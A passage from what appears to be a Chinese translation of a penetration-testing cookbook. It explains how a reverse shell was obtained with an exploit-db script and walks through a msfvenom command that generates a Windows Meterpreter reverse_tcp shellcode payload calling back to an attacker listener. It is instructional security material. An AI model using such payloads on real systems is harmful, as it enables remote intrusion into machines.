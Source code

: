 8.  Once the script has executed come back to the listener and see if the connection has been received:

    ![How to do it...](img/image_04_050.jpg)

太棒了，我们通过使用`exploit-db`上的脚本获得了一个远程 shell。

## 它是如何工作的。。。

这其中的大部分已在演练本身中进行了解释。这里介绍的新工具是`msfvenom`。以下是所用参数的说明：

```
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.3
LPORT=443 EXITFUNC=thread -b "x00x0ax0dx5cx5fx2fx2ex40"
-f python -a x86

```

*   `-p`：这是需要创建的有效负载。
*   `LHOST`：主机，机器应该在其中连接到后期开发。
*   `LPORT`：机器应该连接到的端口。
*   `-b`：代表坏角色。它告诉脚本在生成 shell 代码时避免使用上述字符。
*   `-f`：说明创建外壳代码的格式。
*   `-a`：这表示将在其中执行攻击的目标机器的体系结构。

## 还有更多。。。

这是了解如何编辑脚本以执行我们的需求的一个非常基本的层次。本活动旨在向读者介绍 shell 代码替换的概念。`exploit-db`上有大量与各种漏洞相关的脚本。